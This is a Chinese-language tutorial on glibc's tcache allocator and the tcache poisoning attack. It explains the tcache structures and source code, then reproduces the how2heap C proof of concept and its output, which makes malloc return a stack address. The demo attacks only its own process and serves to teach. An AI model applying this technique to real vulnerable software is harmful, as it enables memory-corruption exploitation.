

## Tcache Attack
Tcache 是glibc 2.26(Ubuntu 17.10)之后引入的技术，目的是为了提升堆管理的性能，我们都知道，一旦某个整体的应用添加了更加复杂的执行流程，那么就意味着整体执行的速度就会降低，那么为了弥补这一部分的欠缺，就不得不有所牺牲。所以虽然提升了整体的性能，但却舍弃了很多安全检查，这就意味着更多新的漏洞就伴随而来，也增添了很多利用方式。

### 相关结构
tcache引入了两个新的结构体：tcache_entry和tcache_perthread_struct。增添的两个结构体其实与fastbin有些类似，但是也有一定的区别

#### tcache_entry
tcache_entry结构体如下：
```
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
```
tcache_entry用于链接空闲的chunk结构体，其中next指针指向下一个大小相同的chunk。


这里需要注意的是next指向chunk的data部分，这和fastbin有一些不同，fastbin的fd指向的是下一个chunk的头指针。tcache_entry会复用空闲chunk的data部分


#### tcache_perthread_struct
tcache_perthread_struct结构体如下
```
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;

# define TCACHE_MAX_BINS 64

static __thread tcache_perthread_struct *tcache = NULL;
```
tcache_perthread_struct是用来管理tcache链表的，这个结构体位于heap段的起始位置，size大小为0x251。每一个thread都会维护一个tcache_perthread_struct结构体，一共有TCACHE_MAX_BINS个计数器TCACHE_MAX_BINS项tcache_entry。其中：

tcache_entry 用单向链表的方式链接了相同大小的处于空闲状态（free 后）的 chunk
counts 记录了 tcache_entry 链上空闲 chunk 的数目，每条链上最多可以有 7 个 chunk

tcache_perthread_struct、tcache_entry和malloc_chunk三者的关系如下：



tcache_perthread_struct结构体的entries成员变量指向tcache_entry结构体的next成员变量地址，tcache_entry结构体的next成员变量指向空闲的malloc_chunk的malloc地址。可以形象的理解为tcache_perthread_struct结构体是大总管，tcache_entry结构体是经理，空闲chunk为员工


### Tcache usage
tcache执行流程如下：

第一次malloc时，回显malloc一块内存用来存放tcache_perthread_struct，这块内存size一般为0x251

释放chunk时，如果chunk的size小于small bin size，在进入tcache之前会先放进fastbin或者unsorted bin中

在放入tcache后：

先放到对应的tcache中，直到tcache被填满（7个）

tcache被填满后，接下来再释放chunk，就会直接放进fastbin或者unsorted bin中

tcache中的chunk不会发生合并，不取消inuse bit

重新申请chunk，并且申请的size符合tcache的范围，则先从tcache中取chunk，直到tcache为空

tcache为空后，从bin中找

tcache为空时，如果fastbin、small bin、unsorted bin中有size符合的chunk，会先把fastbin、small bin、unsorted bin中的chunk放到tcache中，直到填满，之后再从tcache中取

需要注意的是，在采用tcache的情况下，只要是bin中存在符合size大小的chunk，那么在重启之前都需要经过tcache一手。并且由于tcache为空时先从其他bin中导入到tcache，所以此时chunk在bin中和在tcache中的顺序会反过来


### 源码分析

内存申请
tcache初始化的部分在这里就不多说了，因为能利用的点很少。这里就直接从申请内存阶段开始讲解了，首先是申请内存的步骤：
```
  // 从 tcache list 中获取内存
  if (tc_idx < mp_.tcache_bins && tcache && tcache->entries[tc_idx] != NULL)
    {
      return tcache_get (tc_idx);
    }
  DIAG_POP_NEEDS_COMMENT;
#endif
    }
```
这部分的代码描述的是从tcache中取chunk的一系列步骤，首先是在tcache中有chunk的时候，if判断要取出的chunk的size是否满足idx的合法范围，在tcache->entries不为空时调用tcache_get()函数获取chunk。

tcache_get()函数
接下来看一下tcache_get()函数的代码：
```
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]); 
  return (void *) e;
}
```
可以看到tcache_get()函数的执行流程很简单，从tcache->entries[tc_idx]获取一个chunk指针，并且tcache->counts减一，没有过多的安全检查或者保护
内存释放
我们看一下在有tcache的情况下_int_free()中的执行流程：
```
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
  ......
  ......
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache
        && tc_idx < mp_.tcache_bins // 64
        && tcache->counts[tc_idx] < mp_.tcache_count) // 7
      {
        tcache_put (p, tc_idx);
        return;
      }
  }
#endif
  ......
  ......
```
可以看到首先判断tc_idx的合法性，判断tcache->counts[tc_idx]在7个以内时，进入tcache_put()函数，传递的一参为要释放的chunk指针，二参为chunk对应的size在tcache中的下标

tcache_put()函数
```
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
  assert (tc_idx < TCACHE_MAX_BINS);
  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

tcache_put()函数执行过程中把释放的chunk插入到了tcache->entries[tc_idx]链表的头部，整个插入的过程中也没有做任何的安全检查及保护，也没有将P标志位变为0

通过对tcache_get()和tcache_put()两个函数的分析，我们可以看到并没有很严格的进行安全检查，没有对溢出、复用、二次释放等攻击手段进行审计，所以tcache机制伴随而来的是更多的安全问题

### Tcache poisoning
通过覆盖 tcache 中的 next，不需要伪造任何 chunk 结构即可实现 malloc 到任何地址.
tcache poisoning主要的利用手段是覆盖tcache中的next成员变量，由于tcache_get()函数没有对next进行检查，所以理论上来讲如果我们将next中的地址进行替换，不需要伪造任何chunk结构即可实现malloc到任何地址.

code from how2heap

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
        // disable buffering
        setbuf(stdin, NULL);
        setbuf(stdout, NULL);

        printf("This file demonstrates a simple tcache poisoning attack by tricking malloc into\n"
                   "returning a pointer to an arbitrary location (in this case, the stack).\n"
                   "The attack is very similar to fastbin corruption attack.\n");
        printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
                   "We have to create and free one more chunk for padding before fd pointer hijacking.\n\n");

        size_t stack_var;
        printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

        printf("Allocating 2 buffers.\n");
        intptr_t *a = malloc(128);
        printf("malloc(128): %p\n", a);
        intptr_t *b = malloc(128);
        printf("malloc(128): %p\n", b);

        printf("Freeing the buffers...\n");
        free(a);
        free(b);

        printf("Now the tcache list has [ %p -> %p ].\n", b, a);
        printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
                   "to point to the location to control (%p).\n", sizeof(intptr_t), b, &stack_var);
        b[0] = (intptr_t)&stack_var;
        printf("Now the tcache list has [ %p -> %p ].\n", b, &stack_var);

        printf("1st malloc(128): %p\n", malloc(128));
        printf("Now the tcache list has [ %p ].\n", &stack_var);

        intptr_t *c = malloc(128);
        printf("2nd malloc(128): %p\n", c);
        printf("We got the control\n");

        assert((long)&stack_var == (long)c);
        return 0;
}

```

output:(tcache 分配方式是 LIFO)

```
This file demonstrates a simple tcache poisoning attack by tricking malloc into
returning a pointer to an arbitrary location (in this case, the stack).
The attack is very similar to fastbin corruption attack.
After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,
We have to create and free one more chunk for padding before fd pointer hijacking.

The address we want malloc() to return is 0x7ffd48ac9f98.
Allocating 2 buffers.
malloc(128): 0x55b8181ed260
malloc(128): 0x55b8181ed2f0
Freeing the buffers...
Now the tcache list has [ 0x55b8181ed2f0 -> 0x55b8181ed260 ].
We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55b8181ed2f0
to point to the location to control (0x7ffd48ac9f98).
Now the tcache list has [ 0x55b8181ed2f0 -> 0x7ffd48ac9f98 ].
1st malloc(128): 0x55b8181ed2f0
Now the tcache list has [ 0x7ffd48ac9f98 ].
2nd malloc(128): 0x7ffd48ac9f98
We got the control

```

Ref:

https://hollk.blog.csdn.net/article/details/113400567?spm=1001.2014.3001.5502

https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/tcache-attack/

